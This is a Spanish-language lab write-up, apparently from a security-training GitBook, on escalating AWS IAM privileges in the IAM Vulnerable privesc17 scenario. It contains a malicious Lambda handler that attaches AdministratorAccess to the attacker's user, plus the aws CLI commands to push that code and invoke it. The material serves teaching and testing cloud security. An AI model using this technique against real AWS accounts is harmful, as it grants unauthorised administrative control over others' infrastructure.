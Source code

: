 ```yaml
---
description: 'Lab: IAM vulnerable'
---
```


# EditExistingLambdaFunctionWithRole

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio IAM vulnerable con el escenario privesc17.  Para la correcta elevación de privilegios, depende de la interacción de otro usuario o de que la función actualizada sea ejecutada.

{% embed url="https://bishopfox.com/blog/privilege-escalation-in-aws" %}
Lab: IAM - Vulnerable | Escenario: privesc17
{% endembed %}

Un atacante con el permiso <mark style="color:green;">**lambda:UpdateFunctionCode**</mark> podría actualizar el código en una función Lambda existente con un rol de IAM adjunto para que importara la biblioteca de AWS relevante en ese lenguaje de programación y la usara para realizar acciones en nombre de ese rol.

### Configuración Inicial

Usuario del laboratorio: privesc17- EditExistingLambdaFunctionWithRole-user con los permisos:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

La cuenta de AWS debe contener una función Lambda existente, con un rol adjunto que tenga el permiso <mark style="color:green;">iam:AttachUserPolicy.</mark>

Tambien es necesario tener en la infraestructura de pruebas un lambda ya configurado con cualquier funcionalidad con el rol a cual se va a asociar:

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil para el usuario del laboratorio

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (12) (3).png" alt=""><figcaption></figcaption></figure>



### Explotación

En este escenario, se va a utilizar el privilegio del usuario <mark style="color:green;">**lambda:UpdateFunctionCode**</mark> para actualizar una función de lambda existente y añadirle código malicioso encargado de adjuntar una política de altos privilegios a nuestro usuario inicial.

La función lambda maliciosa es la siguiente.

{% code title="lambda_function.py" overflow="wrap" %}
```python
import boto3
def lambda_handler(event, context): 
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName='privesc17- EditExistingLambdaFunctionWithRole-user', 
	PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
```
{% endcode %}

Para subir el archivo de la nueva función lambda se usará el permiso <mark style="color:green;">**lambda:UpdateFunctionCode**</mark> es necesario llamar el archivo <mark style="color:green;">**lambda\_function.py**</mark> y luego comprimir el archivo en formato zip con el nombre <mark style="color:green;">**function.zip.**</mark> Después ejecutar el código:

{% code overflow="wrap" %}
```
aws lambda update-function-code --function-name FuncionHelloWorld --zip-file fileb://function.zip --profile privesc17
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

Cuando se ejecuta la función, se elevan los privilegios del atacante. Si el atacante tiene el permiso <mark style="color:green;">**lambda:InvokeFunction**</mark>, entonces es posible simplemente invocar la función directamente. De lo contrario, ocurrirá cuando otro usuario o servicio ejecute la función. En el siguiente ejemplo, otro usuario ejecuta la función.

El siguiente comando muestra a otro usuario de AWS invocando la lambda.

```
aws lambda invoke --function-name FuncionHelloWorld output.txt --profile other
```

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Finalmente ejecutando iam list attached user policies, podemos observar como el usuario inicial a ganado permisos de administrador:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>



